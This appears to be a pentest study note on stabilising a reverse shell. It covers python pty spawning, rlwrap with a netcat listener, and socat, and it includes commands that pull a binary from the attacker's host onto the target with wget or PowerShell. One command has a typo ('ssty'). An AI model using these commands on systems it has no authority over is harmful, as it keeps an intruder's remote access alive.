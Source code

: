 
## option A
After receiving reversed shell you can stabalize the shell if python is installed


Mind you, you may need to specify the python version

#### 3 steps
Launch bash shell:
`python -c 'import pty;pty.spawn("bin/bash")'`

backout the shell with ctr-z, setup xterm commands: 
`export TERM=xterm`

output the shell to echo raw, and bring it back to the foreground:
`stty raw -echo; fg `

Note: If the shell dies your input/output on that shell won't work anymore, type `reset` and press `[enter]`.


## Option B
### rlwrap

Specialy usefull for windows machines

`sudo apt install rlwrap`

`rlwrap nc -lnvp <port>`

Also this shell can be completely stabalized by disabling the output
`ssty raw -echo; fg`

### Option C 
Socat, 

This technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. 

To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary 
`sudo python3 -m http.server 80`, then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget 
`wget <LOCAL-IP>/socat -O /tmp/socat`.

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`. We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks. 



